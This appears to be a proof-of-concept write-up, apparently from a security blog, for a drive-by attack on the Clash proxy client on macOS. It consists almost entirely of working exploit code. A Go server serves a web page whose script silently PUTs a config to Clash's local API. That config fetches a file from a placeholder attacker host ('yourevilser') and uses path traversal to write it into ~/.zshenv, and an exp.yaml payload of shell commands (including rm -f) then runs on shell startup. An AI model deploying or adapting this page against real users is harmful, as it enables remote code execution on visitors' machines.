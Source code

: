 
  

 ** **main.go:****

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     package main  
    import (  "github.com/gin-contrib/cors"  "github.com/gin-gonic/gin")  
    func main() {  r := gin.Default()  r.Use(cors.Default())  r.StaticFile("/", "./index.html")  r.StaticFile("/exp.yaml", "./exp.yaml")  r.Run(":9999")}  
    

 ** ******

  

  

 **2、MAC POC**

 **  
**

 **index.html:**  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     <!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <meta http-equiv="X-UA-Compatible" content="IE=edge">    <meta name="viewport" content="width=device-width, initial-scale=1.0">    <title>Breaking Clash</title></head>  
    <body>    <h1 align="center">Breaking Clash</h1>    <p align="center"> <img src="https://raw.githubusercontent.com/Dreamacro/clash/master/docs/logo.png"></p>    <p>        <script>                    const data = {                payload: "mixed-port: 7890\nallow-lan: false\nmode: rule\nlog-level: warning\nproxy-providers:\n  provider1:\n    type: http\n    url: 'http://{{yourevilser}}/evil.yaml'\n    interval: 3600\n    path: ../../.zshenv\n    healthcheck:\n      enable: true\n      interval: 600\n      url: http://www.gstatic.com/generate_204"            };            fetch('http://127.0.0.1:9090/configs?force=true', {                method: 'PUT',                headers: {                    'Content-type': 'application/json; charset=utf-8',                },                body: JSON.stringify(data),            }).then(response => response.json())                .then(data => {                    console.log('Success:', data);                })                .catch((error) => {                    console.log('Error:', error);                });</script></body></html>  
    

  

 **exp.yaml ：**

  *   *   *   *   *   *   * 

    
    
    open /System/Applications/Calculator.app;rm -f ~/.zshenv;bash -c 'nohup sleep 10 2>&1 > /dev/null &' <<!:  aaaaa: 11111  
    proxies:  - {name: vP, server: n04.a00x.party, port: 18000, type: ssr, cipher: aes-256-cfb, password: AFX92CS, protocol: auth_aes128_sha1, obfs: http_simple, protocol-param: 232991:xSnSFv, obfs-param: download.windowsupdate.com, udp: true}  
    aaaaa: 2222

  

 **main.go:**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     package main  
    import (  "github.com/gin-contrib/cors"  "github.com/gin-gonic/gin")  
    func main() {  r := gin.Default()  r.Use(cors.Default())  r.StaticFile("/", "./index.html")  r.StaticFile("/exp.yaml", "./exp.yaml")  r.Run(":9999")}  
    